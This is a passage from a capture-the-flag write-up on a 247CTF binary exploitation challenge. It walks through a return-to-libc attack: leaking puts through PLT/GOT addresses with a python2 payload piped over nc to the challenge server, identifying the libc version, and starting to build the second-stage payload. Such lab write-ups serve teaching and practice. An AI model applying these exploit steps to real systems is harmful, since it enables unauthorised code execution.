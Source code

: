 ### `libc` leakage

With all of this in mind, we can construct our payload the same way as before, but instead, to reference the absolute address of the functions, we can use the address of the PLT known functions. We can use this technique only because the binary isn’t a [Position Independent Executable (PIE)](https://en.wikipedia.org/wiki/Position-independent_code) and we can reference the absolute value of the PLT as we know where the binary will be mapped during execution (base address `0x8048000`).

So, in this case, our payload will be like this:

```
[0x2c padding] + [puts@plt] + [dummy address] + [puts@got]
```

This time, we’re calling the `puts@plt` at `0x08048390` with the `puts@got` at `0x0804a018` as a parameter (which it’ll be sent to us as a string):

```
[0x2c padding] + [0x08048390] + [dummy address] + [0x0804a018]
```

If we try our newly crafted payload:

```shell
$ python2 -c 'print("A"*0x2c + "\x90\x83\x04\x08" + "A"*4 + "\x18\xa0\x04\x08")' | nc ad520e503a0ec4e0.247ctf.com 50341 | xxd
00000000: 456e 7465 7220 7468 6520 7365 6372 6574  Enter the secret
00000010: 2070 6173 7377 6f72 643a 0a49 6e63 6f72   password:.Incor
00000020: 7265 6374 2073 6563 7265 7420 7061 7373  rect secret pass
00000030: 776f 7264 210a 60d3 dbf7 90ed d6f7 0a    word!.`........
```

So, now we know that `puts` in the server is placed at `0xf7dbd360` address. With this information, we can search a [libc database](https://libc.blukat.me/) to download this specific version (`libc6-i386_2.27-3ubuntu1_amd64`). In case that address matches different versions, we can leak other addresses as `gets` or `strcmp` to limit the results.



![libc database result](https://duroz.github.io/post/247ctf-pwn-non-executable-stack/libc-version_hu4695770a2e6f2b76e5e2e618435ba63b_43837_92f850fdc407dbf60aaa066543a0d4b6.webp)



If we run again our Python command with the payload, we’ll see that this time `puts` address is different, so we can confirm that the remote server has ALSR activated.

### Payload construction

The main problem here is that we need to know the base address of the `libc` library to construct our payload. We can obtain it thanks to the `puts` address leakage:

```
[libc base adddress] = [puts address leaked] - [libc6-i386_2.27-3ubuntu1_amd64.puts RVA]
```

But if we provide a dummy address to the payload, the remote program will crash, and in the next execution, the base address will be different. So, we can provide the `main` address to continue execution and interact again with the program and the vulnerable gets function to overwrite again the return address, this time with the first payload we described earlier, but instead of referencing the absolute addresses, we can use them as:
